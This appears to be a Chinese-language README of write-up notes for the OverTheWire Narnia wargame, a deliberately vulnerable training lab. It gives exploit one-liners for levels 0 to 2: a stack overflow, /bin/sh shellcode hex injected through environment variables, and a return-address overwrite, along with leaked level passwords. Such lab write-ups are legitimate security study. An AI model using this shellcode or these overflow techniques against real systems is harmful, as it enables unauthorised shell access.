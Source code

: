 wargame-narnia
==============

-  ssh addr: narnia0@narnia.labs.overthewire.org
-  url: http://overthewire.org/wargames/narnia/

    --[ Tips ]--

    This machine has a 64bit processor and many security-features
    enabled by default, although ASLR has been switched off. The
    following compiler flags might be interesting:

    -  -m32 compile for 32bit
    -  -fno-stack-protector disable ProPolice
    -  -Wl,-z,norelro disable relro

    In addition, the execstack tool can be used to flag the stack as
    executable on ELF binaries.

    Finally, network-access is limited for most levels by a local
    firewall.

测试 shellcode:
~~~~~~~~~~~~~~~

`shellcodetest.c <./shellcodetest.c>`__

gcc -fno-stack-protector -z execstack -m32 shellcodetest.c -o
shellcodetest

生成 shellcode
~~~~~~~~~~~~~~

1. 写出 xxx.asm
2. ``nasm -f elf32 xxx.asm -o xxx.o``
3. ``ld -m elf_i386 -o xxx xxx.o``
4. ``objdump -d xxx`` 从输出中获得 shellcode 当然也可以写个工具提取
5. 考虑一下让\ ``.text``\ 段可写?
   ``objcopy --writable-text -O elf32-i386 xxx xxx1`` 似乎没有作用...

更改的系统值存档
~~~~~~~~~~~~~~~~

-  ``/proc/sys/kernel/randomize_va_space`` = 2

narnia0
'''''''

flag: narnia0

narnia1
'''''''

flag: efeidiedae

`narnia0.c <./narnia0.c>`__

需要覆盖\ ``val``\ 变量, 注意管道关闭后程序也会随着关闭因此需要用
``cat`` 继续向程序传递内容

::

    $ (python -c "print('aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde')"; cat) | /narnia/narnia0
    # 进入 sh 后执行
    $ cat /etc/narnia_pass/narnia1

narnia2
'''''''

flag: nairiepecu

`narnia1.c <./narnia1.c>`__

程序直接把环境变量 ``$EGG`` 的内容当成函数执行了，所以要在 ``$EGG``
中插入程序。

这次需要真正的 shellcode 了, shellcode 见 ``shell.asm``, 将生成的
shellcode 导入 EGG 变量, 直接执行 ``./narnia2`` 即可.

shellcode: `shell.asm <./shell.asm>`__

::

    $ export EGG=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
    $ ./narnia1

narnia3
'''''''

`narnia2.c <./narnia2.c>`__

查看环境变量地址: ``(gdb) x/s *((char **)environ + 1)``\ ， 结果
``0xffffd8a1:     "XDG_SESSION_ID=76296"``

::

    $ export XDG_SESSION_ID=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
    ./narnia2 $(python -c "print('a' * 140 + '\x55\xd8\xff\xff')")
